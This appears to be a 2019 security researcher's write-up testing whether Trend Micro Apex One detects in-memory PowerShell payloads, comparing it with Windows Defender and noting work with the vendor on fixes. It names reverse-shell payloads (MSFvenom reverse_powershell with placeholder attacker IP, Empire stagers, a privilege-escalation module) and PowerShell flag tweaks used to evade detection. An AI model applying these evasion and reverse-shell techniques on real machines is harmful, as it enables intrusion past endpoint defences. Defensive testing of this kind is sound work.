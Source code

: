 # Bypassing Trend Micro Apex One

![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

## Background

Here's the [solution brief](www.trendmicro.com/en_us/business/products/user-protection/sps/endpoint.html?modal=overview-apex-f2049a) about Apex One.

Obviously, a product like this isn't going to prevent bleeding-edge methods or techniques that are used to get around them. The same goes for customized payloads. For example, the simple reverse PowerShell script I wrote gets around Defender and AMSI in Windows 10 build 1903 as of June 7th. The art of bypassing anti-virus and EDR solutions is a whole other topic on its own that consists of individuals who know much more than I do when it comes to this type of stuff.

Before you ask, yes I did check the settings in the administration console. I double checked, triple checked, checked a fourth time, and then checked again for the hell of it. Other colleagues and individuals from Trend have checked the settings. I'm sure they would have told me to shove off by now and check again if it was something on my end.

![bms](Post%20Images/TMAO-Bypass-imgs/misc-imgs/BMS.PNG)
![scs](Post%20Images/TMAO-Bypass-imgs/misc-imgs/SCS.PNG)

## Testing

I wanted to test Apex One to see if it works as advertised, rather than setting it up, changing necessary settings and forgetting about it. For the sake of testing, the scenario was set in a situation in which an attacker had some sort of access to the machine. This could be a reverse shell via an exploit, recovered creds that allows for smblogin, login through RDP, etc. Needless to say, I was a bit shocked when I discovered how trivial it was to skate around Apex. Before I started testing, I had done enough research to know the basics or at least have a decent grasp on the thought process that went into the techniques of bypassing AV and EDR solutions. As expected, Apex was alerting and blocking anything malicious that touched the disk. However, things started going downhill when I started testing file-less payloads or ones that resided in memory only. Keep in mind I wasn't trying to get sophisticated or do anything advanced. All I was doing at this point was using well known and publicly available tools and frameworks and throwing them at my test machine to see if the agent would alert on it. All I wanted to do was to make sure it was stopping known or old payloads and tools.

### Tools and payloads that were used to bypass Apex One

* MSFvenom: cmd/windows/reverse_powershell lhost=\<attackip\> lport=\<attakport\>
* PowerShell Empire with http listener and launcher to generate the stager
* My custom reverse PowerShell script
* A random reverse [PowerShell one-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
* SilentTrinity


## MSFVenom cmd/windows/reverse_powershell

![msfv_1](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfv_kalivm.PNG)
![msfv_2](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/Win10Prod.PNG)
![msfv_3](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfvenom_payload.PNG)
![msfv_4](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/Win10Prod_rpsh_exec.PNG)
![msfv_5](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfv_bypass.PNG)
![msfv_6](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfv_bypass2.PNG)

## Observations & Anomalies

## PowerShell Empire

I worked with Trend to get a patch pushed out to specifically alarm on PowerShell Empire (they're still working on having Apex detect the MSFvenom cmd/windows/reverse_powershell payload). Apex received the patch on May 8th and I was still able to get around Apex with Empire. The relevant signature on detection is `HTTP-EMPIRE-3`. On the 23rd of May, Apex had for the first time in my environment, successfully prevented the callback to Empire. Everything was fine and dandy until on June 5th, I tested Apex again for the sake of consistency. Apex once again failed to prevent the callback the Empire instance running on my Kali machine. At this time I noticed that the IP on my Kali box had changed. Thus, began the trend of inconsistencies.

While testing after the 5th of June, I noticed three things. The first one is that changing the IP of my Kali machine looked like it had some role in Empire being successful again, but I highly doubt it would be that simple to outmaneuver and EDR solution like that. The second anomaly was the effect of base64 encoded payloads. When using the MSFvenom payload cmd/windows/reverse_powershell in conjunction with the Magic Unicorn payload generator from TrustedSec, Apex One was alerting on it. Apex seems to ignore it if I just straight up generate the payload with MSFvenom with no encoding. My basic knowledge of how AV and EDR technologies work leads me to believe that the engine is building a risk rating based on several factors or attributes associated with the PowerShell code. Since the PowerShell code is obfuscated via base64 encoding, it uses this information as one factor along with several other factors to determine whether or not it is harmful or suspicious. In this case, it correctly identified that the payload generated from the Magic Unicorn payload generator is indeed malicious. Before the May 8th patch, the opposite seemed to be occurring when using the base64 encoded PowerShell payload generated from the launcher command in Empire. With this in mind, I decided to decode the base64 encoded payload Empire produced. It seemed to have worked for a short while before Apex catched on and started blocking it.

The third and final anomaly that has been the most consistent in getting me around Apex since the update is simply changing the [flags](https://docs.microsoft.com/en-us/powershell/module/Microsoft.PowerShell.Core/About/about_PowerShell_exe?view=powershell-5.1). These flags are used with the `powershell` command before the base64 encoded payload body. Based on my observations during testing, Apex is very inconsistent when alerting on this method. Sometimes it will alert if I leave the default flags `powershell -w hidden -noP`. Sometimes it will alert if I tweak them. Sometimes it won't alert either way. I'm not exactly sure why this is though. My guess is that the *'machine learning'* component of Apex is not up to snuff and could use some more work. I even used some of the modules that Empire provided thinking that Apex would alert on those. Unfortunately, when using some of the modules like `powershell/privesc/ask`, Apex did not alert on any of them.

#### Default payload generation

![PSE_default_bypass](Post%20Images/TMAO-Bypass-imgs/Empire-imgs/default2.PNG)
![PSE_default_privesc](Post%20Images/TMAO-Bypass-imgs/Empire-imgs/privesc_success2.PNG)

#### Payload tweak & modification

Note the following: `powershell -executionpolicy unrestricted -nologo -noexit -noninteractive -encoded`

![PSE_mod](Post%20Images/TMAO-Bypass-imgs/Empire-imgs/pse_tweak.PNG)


## A Shocking Revelation

During testing, I needed to gather metrics from other AV and EDR solutions to compare against Apex One. Why not start with Windows Defender in the latest Windows 10 Pro build? I created an ISO build 1803 (and later 1903 after testing a trial version of CrowdStrike Falcon Prevent), installed the latest updates for the operating system and definitions for Defender. The results shocked me, to say the least. You'd think a free, built-in AV that comes with Windows would be absolute trash, but it's quite the opposite. From my testing, Windows Defender and ASMI in build 1803 were able to block almost everything Apex One wasn't. It even blocked the aforementioned PowerShell oneliner from the GitHub link.

![Github One-liner](Post%20Images/TMAO-Bypass-imgs/misc-imgs/amsi_github_oneliner.PNG)

However, I was able to get around it using my custom reverse PowerShell script (this was expected) and silenttrinity. Defender and ASMI did even better in build 1903 as it stone-walled everything except my custom reverse PowerShell script. I should state that more testing will need to be done with silenttrinity as I didn't receive a message from AMSI or Defender saying something malicious was going on. However, I did receive an error message telling me that the PowerShell stager with the embedded interpreter for the Boo Lang or Iron Python based payload and the MSBuild.xml stagers failed to build correctly. This could be due to changes in the Windows operating system itself in build 1903 or changes in PowerShell and the .NET framework. Furthermore, to rule out the environment as being the culprit of the issues with Apex One, I decided to unload and remove the Apex agent from a production workstation that wasn't important, let Defender take over and perform the same tests. Again, Defender stopped what Apex One couldn't.

# Updates

## Update #1: June 21st 2019

1. Currently, Apex One can be bypassed using simple or even very basic payloads that mostly reside in memory.
2. Currently, Apex One can be bypassed using exploit tools or frameworks that have aged well beyond the point where many would logically think that most vendors would have a solution to detect their signatures, etc.

* The majority of the payloads that I've created or generated and that have touched the disk were detected as they should be.
* By mere observation, it looks like Trend is having trouble detecting malicious code that runs in memory and in some way interacts with the .NET framework via a .NET language, etc.
* Furthermore, the current factors or attribute flags used to help the engine determine whether or not this code is malicious are simply not sufficient enough in **my opinion**.

## Update #2: June 28th 2019

Apex One seems to be consistently alerting on PowerShell Empire payloads in which I don't change or modify the default launcher value when setting up a listener. The same can also be said for payloads in which I've modified the flags with for the launcher command. It still does not explain the inconsistencies in detecting that were observed during testing. I should note that there was an update for the agent and the signature version shows `15.201.00`.
